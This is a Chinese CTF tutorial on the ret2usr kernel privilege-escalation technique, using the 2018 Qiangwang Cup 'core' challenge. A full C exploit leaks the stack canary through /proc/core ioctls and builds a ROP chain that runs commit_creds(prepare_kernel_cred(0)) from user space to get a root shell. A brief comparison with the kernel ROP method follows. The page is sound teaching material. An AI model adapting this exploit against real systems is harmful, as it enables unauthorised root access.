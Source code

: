 
# ret2usr
ret2usr 攻击利用了 **用户空间的进程不能访问内核空间，但内核空间能访问用户空间** 这个特性来定向内核代码或数据流指向用户控件，以 `ring 0` 特权执行用户空间代码完成提权等操作。

## 2018 强网杯 - core
上一篇分析了使用 [kernel rop](https://ctf-wiki.github.io/ctf-wiki/pwn/linux/kernel/kernel_rop/#kernel-rop-2018-core) 完成提权拿 shell 的步骤，这一篇分析一下使用 ret2usr 手法获取 root shell。

题目就不再分析了，直接分析 exp。

```C
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>
#include <sys/stat.h>
#include <fcntl.h>
#include <string.h>
#include <stdint.h>

size_t user_cs, user_ss, user_rflags, user_sp;
void save_status()
{
	__asm__("mov user_cs, cs;"
			"mov user_ss, ss;"
			"mov user_sp, rsp;"
			"pushf;"
			"pop user_rflags;"
			);
	puts("[*]status has been saved.");
}


void get_shell(void){
    system("/bin/sh");
}

size_t commit_creds = 0, prepare_kernel_cred = 0;
size_t raw_vmlinux_base = 0xffffffff81000000;
size_t vmlinux_base = 0;
size_t find_symbols()
{
	FILE* kallsyms_fd = fopen("/tmp/kallsyms", "r");
	/* FILE* kallsyms_fd = fopen("./test_kallsyms", "r"); */

	if(kallsyms_fd < 0)
	{
		puts("[*]open kallsyms error!");
		exit(0);
	}

	char buf[0x30] = {0};
	while(fgets(buf, 0x30, kallsyms_fd))
	{
		if(commit_creds & prepare_kernel_cred)
			return 0;

		if(strstr(buf, "commit_creds") && !commit_creds)
		{
			/* puts(buf); */
			char hex[20] = {0};
			strncpy(hex, buf, 16);
			/* printf("hex: %s\n", hex); */
			sscanf(hex, "%llx", &commit_creds);
			printf("commit_creds addr: %p\n", commit_creds);
			vmlinux_base = commit_creds - 0x9c8e0;
			printf("vmlinux_base addr: %p\n", vmlinux_base);
		}

		if(strstr(buf, "prepare_kernel_cred") && !prepare_kernel_cred)
		{
			/* puts(buf); */
			char hex[20] = {0};
			strncpy(hex, buf, 16);
			sscanf(hex, "%llx", &prepare_kernel_cred);
			printf("prepare_kernel_cred addr: %p\n", prepare_kernel_cred);
			vmlinux_base = prepare_kernel_cred - 0x9cce0;
			/* printf("vmlinux_base addr: %p\n", vmlinux_base); */
		}
	}

	if(!(prepare_kernel_cred & commit_creds))
	{
		puts("[*]Error!");
		exit(0);
	}

}


void get_root()
{
	char* (*pkc)(int) = prepare_kernel_cred;
	void (*cc)(char*) = commit_creds;
	(*cc)((*pkc)(0));
	/* puts("[*] root now."); */
}

void set_off(int fd, long long idx)
{
	printf("[*]set off to %ld\n", idx);
	ioctl(fd, 0x6677889C, idx);
}

void core_read(int fd, char *buf)
{
	puts("[*]read to buf.");
	ioctl(fd, 0x6677889B, buf);

}

void core_copy_func(int fd, long long size)
{
	printf("[*]copy from user with size: %ld\n", size);
	ioctl(fd, 0x6677889A, size);
}


int main(void)
{
	find_symbols();
	size_t offset = vmlinux_base - raw_vmlinux_base;
	save_status();

	int fd = open("/proc/core",O_RDWR);
	set_off(fd, 0x40);
	size_t buf[0x40/8];
	core_read(fd, buf);
	size_t canary = buf[0];
	printf("[*]canary : %p\n", canary);

	size_t rop[0x30] = {0};
	rop[8] = canary ; 
	rop[10] = (size_t)get_root;
	rop[11] = 0xffffffff81a012da + offset; // swapgs; popfq; ret
	rop[12] = 0;
	rop[13] = 0xffffffff81050ac2 + offset; // iretq; ret;
	rop[14] = (size_t)get_shell; 
	rop[15] = user_cs;
	rop[16] = user_rflags;
	rop[17] = user_sp;
	rop[18] = user_ss;

	puts("[*] DEBUG: ");
	getchar();
	write(fd, rop, 0x30 * 8);
	core_copy_func(fd, 0xffffffffffff0000 | (0x100));
}
```
比较一下和 [kernel rop](https://github.com/bash-c/pwn_repo/blob/master/QWB2018_core/rop.c) 做法的异同。

1. 通过读取 `/tmp/kallsyms` 获取 `commit_creds` 和 `prepare_kernel_cred` 的方法相同，同时根据这些偏移能确定 gadget 的地址。
2. leak canary 的方法也相同，通过控制全局变量 `off` 读出 canary。
3. 与 kernel rop 做法不同的是 rop 链的构造
	1. kernel rop 通过 内核空间的 rop 链达到执行 `commit_creds(prepare_kernel_cred(0))` 以提权目的，之后通过 `swapgs; iretq` 等返回到用户态，执行用户空间的 `system("/bin/sh")` 获取 shell
	2. ret2usr 做法中，直接返回到用户空间构造的 `commit_creds(prepare_kernel_cred(0))` （通过函数指针实现）来提权，虽然这两个函数位于内核空间，但此时我们是 `ring 0` 特权，因此可以正常运行。之后也是通过 `swapgs; iretq` 返回到用户态来执行用户空间的 `system("/bin/sh")`

从这两种做法的比较可以体会出之所以要 `ret2usr`，是因为一般情况下在用户空间构造特定目的的代码要比在内核空间简单得多。


